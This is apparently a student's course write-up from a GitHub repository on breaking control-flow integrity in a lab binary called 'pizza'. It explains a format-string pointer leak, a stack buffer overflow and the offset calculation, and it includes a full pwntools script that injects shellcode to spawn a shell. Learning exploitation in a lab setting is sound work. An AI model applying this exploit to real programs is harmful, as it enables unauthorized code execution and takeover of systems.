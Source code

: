# Assignment 10
The goal of this assignment was to learn about control flow integrity and how to break it. I did this by using pwntools, a python library designed to exactly this. To do this we took a poorly made ,at least as far as security is concerned, program that allowed user to input data that wasn't properly checked. 

## Process
The first thing we had to do was determine what we could do to the program to break it. To do this I started off by just trying to over flow the buffers for input. There was 2 locations I was able to overflow and cause a segmentation fault, the name and the credit card input for the progam.

![Example of buffer overflow crash](https://github.com/Novaii-Yoder/CS579/assets/52936757/3cd84b7c-498e-4497-8a8d-ffdba1d527b9)

So now we know we can input our shellcode into the input and overwrite return addresses to call the shellcode, but the hard part now is finding where to overwrite the return address and what address to overwrite it with. The way I did this was by getting the program to leak an address to the stack, this way I could find an offset and use that to get the code to run. This can be done in the pizza program by feeding it a string of `%p` because of the way the program was written. The pizza program uses something like sprintf(), or printf() in the code which allows us to use format specifiers in our string input. This is really bad practice because when you pass too many specifiers and not enough input you get undefined behavior which opens your program to attacks. Because of our format specifiers '%p' we can print what ever is on that stack as pointers to the screen, so we just print a few until we see a pointer that leads to the stack. We can determine which pointers are to the stack using some common sense principals, we know that the stack grows downward and that the start of the stack is normally the max number for the virtual address space, so we know we are looking for the largest valued pointers, which happens to be the `0x7ffe2c82e8e0` value.

![The leaked pointers](https://github.com/Novaii-Yoder/CS579/assets/52936757/ccd3ec2b-297b-4e14-b145-0efc31d86d1c)

Now that we've leaked pointers we just have to determine which one to use and create an offset. Because of randomize stack locations we cant hardcode a return address to our shellcode, because everytime the program runs it would be different. So we have to to find the offset from one of the leaked pointers. I did this by using the corefiles that the cpu dumps when it crashes, so all I had to do was crash the program, which we already discovered how to do. After crashing the program I used the core file and pwntools to open it and view pointers and the stack. I used the stackpointer at the time of the crash and printed the stack around that pointer to get a glimpse of the stack.

![The printed stack](https://github.com/Novaii-Yoder/CS579/assets/52936757/875c6722-d68b-4812-9bb3-02e2baad3312)

In the image above you can see that I have already input the shellcode and crashed the program by following it with a bunch of A's. Using this glimpse into the stack we can determine 2 things: First, that the position of the stackpointer at the time of the crash is return address we want to replace. Second, we know where the adress of the shellcode is, so now we can calculate the offset.

To calculate the offset we just take the two stack address we found and subtract them from eachother. This will give us the number we need to add to the leaked address everytime we run the code and put into the return address. 
In this case we take:
~~~
    0x7ffe2c82e8e0
-   0x7ffe2c82e870
--------------------
    0x000000000070 => 112
~~~
So now we can but everything together and have the program leak addresses at runtime, and create the return address with the offset, then combine the the shellcode, a buffer of whatever, then finally the return address to the shellcode. Then we can run the program again and it will allow us to use the terminal.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/77026007-490a-4063-a853-4191e27e16fc)

## Code
~~~python3
from pwn import *

# A simple function that takes a core file and prints the stack, it prints the number entered as the total lines and prints the lines around where the stack pointer was when the program crashed.
def print_stack(core, num=20):
    rsp = core.rsp
    print("Stack")
    x = num//2
    for i in range(x, 1, -1):
        tmp = rsp + 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

    print(f"{tmp:x}\t{core.read(rsp, 8)} <------- RSP")

    for i in range(1, x):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")



#### MAIN ####

# Executable and Linkable Format
elf = ELF("./pizza")

# Set the context in pwn to machine settings
context(arch='amd64', os='linux', endian='little', word_size=64)

# Get the addresses to function names
# getname_address = elf.symbols["getname"]
# print(hex(getname_address))

# Loads in pwn's shell code as assembly
shellcode = asm(shellcraft.amd64.linux.sh())

# Prints shellcode as assembly
# print(shellcraft.amd64.linux.sh())

# Prints shellcode as hex
# print(shellcode.hex().upper())

# Start the target process we will be breaking into 
victim = process("./pizza")

# First input tricks the program into printing stack and other locations
input1 = b"%p %p %p %p %p %p %p %p %p %p"

# Get the first line of output
print(str(victim.recvline(), "latin-1"))

# Send our "name" aka "%p %p.."
victim.sendline(input1)

# Get the response and parse it into getting the stackpointer
line = str(victim.recvline(), "latin-1")
print(line)
# Subtract the offset to the start of our shellcode
addr = int(line.split(" ")[7], 16) - 112
# Create our second input, which will have the shellcode, then a bunch of garbage until the return adress to the shell code.
input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little')


line = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

# Send our shellcode 
victim.sendline(input2)

# Give the control back to us
# Now we have access to the computer as whoever ran ./pizza
victim.interactive()

victim.wait()

# This finds the corefile from a segfault and lets us parse it
# core = victim.corefile
# print_stack(core, 40)

# print(input2)
# print(disasm(core.read(core.rip,8))) # prints next instructions
exit()
~~~

